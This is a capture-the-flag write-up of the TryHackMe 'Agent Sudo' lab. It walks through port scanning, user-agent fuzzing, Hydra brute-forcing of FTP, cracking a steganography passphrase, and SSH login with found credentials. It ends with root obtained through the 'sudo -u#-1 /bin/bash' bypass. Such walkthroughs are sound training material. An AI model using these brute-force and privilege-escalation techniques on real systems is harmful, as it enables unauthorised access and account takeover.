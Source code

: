 # THM - Agent Sudo

##### Ip: 10.10.132.28
##### Name: Agent Sudo
##### Rating: Easy

------------------------------------------------

thm_agentsudo_pic.png

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.132.28
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-18 15:12 CST
Warning: 10.10.132.28 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.132.28
Host is up (0.18s latency).
Not shown: 59955 closed tcp ports (reset), 5577 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.16 seconds
```

Looking at the site on port 80 we find the following message:

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

Capturing the request in Burp, and using `R` for the user-agent field, we get a new result:

thm_agentsudo_r.png

Ok, interesting. 

Let's create a list of letters we can use to spray in Burp:

```
A
B
C
D
E
F
G
<snip>
```

Sending the request to Intruder in Burp, pasting in the payload list, and starting the Sniper attack, we see that letter C has a 302 redirect:

thm_agentsudo_c.png

Forwarding the request we find a new note, alongside a name of chris:

thm_agentsudo_note.png

This is a nice little hint. We now have the username chris, and we know he has a weak password, so let's try brute forcing FTP with Hydra.

thm_agentsudo_hydra.png

### Exploitation

Cool, that worked. We now have the credentials `chris:crystal`. 

Let's use these to access FTP as chris.

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ ftp 10.10.132.28 
Connected to 10.10.132.28.
220 (vsFTPd 3.0.3)
Name (10.10.132.28:ryan): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||62593|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *
mget To_agentJ.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||34734|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |********************************************************************************|   217        1.33 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (1.64 KiB/s)
mget cute-alien.jpg [anpqy?]? y
229 Entering Extended Passive Mode (|||54112|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |********************************************************************************| 33143      280.95 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (131.90 KiB/s)
mget cutie.png [anpqy?]? y
229 Entering Extended Passive Mode (|||28937|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |********************************************************************************| 34842      279.89 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (137.32 KiB/s)
ftp> bye
221 Goodbye.
```

Inside we find three files, let's use `mget *` to download these locally.

Looking at the note first, we find:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Trying to use `steghide` to look at the contents of the cute-alien.jpg file, we see it is passphrase protected.

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ steghide extract -sf cute-alien.jpg 
Enter passphrase: 
```

Let's use `stegseek` to crack this:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ stegseek -sf cute-alien.jpg -wl /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"           
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```

Stegseek gave us an output file, so let's check that out:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ cat cute-alien.jpg.out
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Ok, lets use these credentials to SSH in as James:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ ssh james@10.10.132.28                                     
The authenticity of host '10.10.132.28 (10.10.132.28)' can't be established.
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.132.28' (ED25519) to the list of known hosts.
james@10.10.132.28's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)
```

We can now grab the user.txt flag:

thm_agentsudo_user.png

### Privilege Escalation

Running `sudo -l` to see what James can run with elevated permissions we find:

```
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Cool, this should make for an easy root.

This is a good guide on abusing this: https://www.exploit-db.com/exploits/47502

We can simply run:

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
```

And elevate to root.

We can now grab the final flag:

thm_agentsudo_root.png

Thanks for following along!

-Ryan

--------------------------------------------------------------